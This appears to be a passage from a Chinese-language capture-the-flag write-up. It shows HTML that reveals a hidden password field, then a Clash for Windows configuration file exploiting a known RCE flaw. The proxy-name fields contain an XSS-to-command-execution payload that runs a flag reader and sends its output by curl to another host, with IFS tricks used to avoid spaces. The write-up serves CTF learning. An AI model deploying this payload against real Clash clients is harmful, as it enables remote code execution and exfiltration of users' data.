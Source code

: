```html
<head>
  <script>
    function toggle() {
      var x = document.getElementById("primogem_code");
      if (x.type === "password") {
        x.type = "text";
      } else {
        x.type = "password";
      }
    }
    function script() {
      setTimeout(toggle, 3000)
    }
  </script>
</head>

<body onload="script();">
  <input type="password" id="primogem_code" size="100">
```

### Flag 3

flag3 一定要通过调用 readfile 获得，那就得翻翻 [RCE](https://github.com/Fndroid/clash_for_windows_pkg/issues/2710) 了。

修改 poc 时踩坑，带空格还有重定向符号会有各种莫名其名的问题，调试到第二阶段用了点 shell 魔法才调通，~~丢死人了~~。


```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("IFS=];a=$(/app/readflag);b=curl]172.17.0.1:8000/$a;$b",{"shell":"/bin/bash"});`);>
    type: socks5
    server: 127.0.0.1
    port: "1926"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("IFS=];a=$(/app/readflag);b=curl]172.17.0.1:8000/$a;$b",{"shell":"/bin/bash"});`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("IFS=];a=$(/app/readflag);b=curl]172.17.0.1:8000/$a;$b",{"shell":"/bin/bash"});`);>
```
